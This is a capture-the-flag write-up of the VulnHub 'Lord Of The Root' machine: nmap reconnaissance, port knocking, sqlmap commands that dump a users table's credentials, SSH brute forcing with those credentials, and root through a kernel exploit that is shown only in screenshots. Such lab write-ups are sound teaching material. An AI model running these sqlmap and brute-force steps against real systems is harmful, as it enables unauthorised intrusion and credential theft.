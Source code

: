 ```yaml
---
layout: default
title : muzec - Lord Of The Root Writeup
---
```


Lord Of The Root a cool box on vulnhub which help others learn some basic CTF hacking strategies and some tools like Port Knocking,Sqlmap etc you can easily grab a copy here [Lord Of The Root Download Here](https://www.vulnhub.com/entry/lord-of-the-root-101,129/)

![image](https://user-images.githubusercontent.com/69868171/120629067-6dd53e80-c433-11eb-8bab-cf0138683786.png)


We always start with an nmap scan.....

```Nmap -sC -sV -Pn -oA nmap <Target-IP>```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/lord]
└─$ nmap -sC -Pn -sV -oA nmap 172.16.139.200
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-03 02:59 EDT
Nmap scan report for 172.16.139.200
Host is up (0.00071s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3c:3d:e3:8e:35:f9:da:74:20:ef:aa:49:4a:1d:ed:dd (DSA)
|   2048 85:94:6c:87:c9:a8:35:0f:2c:db:bb:c1:3f:2a:50:c1 (RSA)
|   256 f3:cd:aa:1d:05:f2:1e:8c:61:87:25:b6:f4:34:45:37 (ECDSA)
|_  256 34:ec:16:dd:a7:cf:2a:86:45:ec:65:ea:05:43:89:21 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.21 seconds
```
We have only one port SSH that is strange let try checking the SSH for some clue.

![image](https://user-images.githubusercontent.com/69868171/120630276-ab869700-c434-11eb-8563-9493e40b3b4d.png)

Knock Friend To Enter the hint is clear seems we have to use port knocking on it `Easy as 1,2,3` yes the 1 2 3 that only what we have let try it.

Port knocking is a stealth method to externally open ports that, by default, the firewall keeps closed. It works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, the firewall opens certain port(s) to allow a connection. 

### Port Knocking

Port Knocking command `knock 172.16.139.200 1 2 3` .

![image](https://user-images.githubusercontent.com/69868171/120631489-f228c100-c435-11eb-87e0-bfb5875570e0.png)

Now let scan it again with Nmap.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/lord]
└─$ nmap -sC -Pn -p- -sV -oA nmap 172.16.139.200
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-03 03:38 EDT
Nmap scan report for 172.16.139.200
Host is up (0.00060s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3c:3d:e3:8e:35:f9:da:74:20:ef:aa:49:4a:1d:ed:dd (DSA)
|   2048 85:94:6c:87:c9:a8:35:0f:2c:db:bb:c1:3f:2a:50:c1 (RSA)
|   256 f3:cd:aa:1d:05:f2:1e:8c:61:87:25:b6:f4:34:45:37 (ECDSA)
|_  256 34:ec:16:dd:a7:cf:2a:86:45:ec:65:ea:05:43:89:21 (ED25519)
1337/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.26 seconds
```
Boom we have a new port open `1337` HTTP cool the power of knocking is cool now time to hit the port on HTTP.

![image](https://user-images.githubusercontent.com/69868171/120632575-1b961c80-c437-11eb-8f5d-5f2aa80899ee.png)

A simple page checking source code nothing i try bursting directory nothing also strange right.

![image](https://user-images.githubusercontent.com/69868171/120632780-5435f600-c437-11eb-8bd6-48a502c9d735.png)

Running `nikto` also nothing.

![image](https://user-images.githubusercontent.com/69868171/120633015-a2e39000-c437-11eb-9bc4-b098f93da9df.png)

Some i decided to check the `robots.txt` always check it.

![image](https://user-images.githubusercontent.com/69868171/120633138-c9a1c680-c437-11eb-8b2c-1c1550aa410c.png)

Now i try checking the source code again now boom some secret text probably encoded.

![image](https://user-images.githubusercontent.com/69868171/120633255-efc76680-c437-11eb-8c69-ca68736495db.png)

Now let try decoding it to see what we have.

![image](https://user-images.githubusercontent.com/69868171/120633654-62384680-c438-11eb-9c20-14e347418b17.png)

A secret directory `/978345210/index.php` nice let hit it.

![image](https://user-images.githubusercontent.com/69868171/120633896-aa576900-c438-11eb-808a-684a0a9b5467.png)

Now we have a login page i have the habit of always testing for SQL injection first so i try the basic sql injection command now luck so let intercept it and use `sqlmap` .

![image](https://user-images.githubusercontent.com/69868171/120634991-ec34df00-c439-11eb-9bb9-97fd74fe2b1c.png)

Save in a txt file, sacnning with `sqlmap`

`sqlmap -r scan.txt --dbs --columns` command am using for the `sqlmap` .

![image](https://user-images.githubusercontent.com/69868171/120635930-028f6a80-c43b-11eb-8145-67e62f7a3ae7.png)

We are right it vulnerable to SQL injection let dump it.

`sqlmap -r scan.txt -D Webapp -T Users -C username,password --dump` dumping credentials seems cool.

![image](https://user-images.githubusercontent.com/69868171/120682732-cc69df00-c46a-11eb-96a8-42a19f020606.png)

Looking back at our nmap result seems we have SSH open now let try using the credentials to brute force SSH guess is the way in let try it.

![image](https://user-images.githubusercontent.com/69868171/120933228-25ce4a00-c6c7-11eb-8379-776e171735ce.png)

Boom credentials for SSH nice let log in.

![image](https://user-images.githubusercontent.com/69868171/120933331-a4c38280-c6c7-11eb-806c-f614e24242e0.png)

We are in time to get root.

### Privilege Escalation

Checking `sudo -l` no luck so let try checking for kernal version.

![image](https://user-images.githubusercontent.com/69868171/120933485-68445680-c6c8-11eb-809a-7e2aca09adb2.png)

Cool it running an old version let check for exploit on exploitdb.

![image](https://user-images.githubusercontent.com/69868171/120933594-cbce8400-c6c8-11eb-8df7-2f07e374206a.png)

Let get it on the target and compile the exploit and run.

![image](https://user-images.githubusercontent.com/69868171/120933710-52836100-c6c9-11eb-9c79-24f1ff49a7f2.png)

We are root and done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
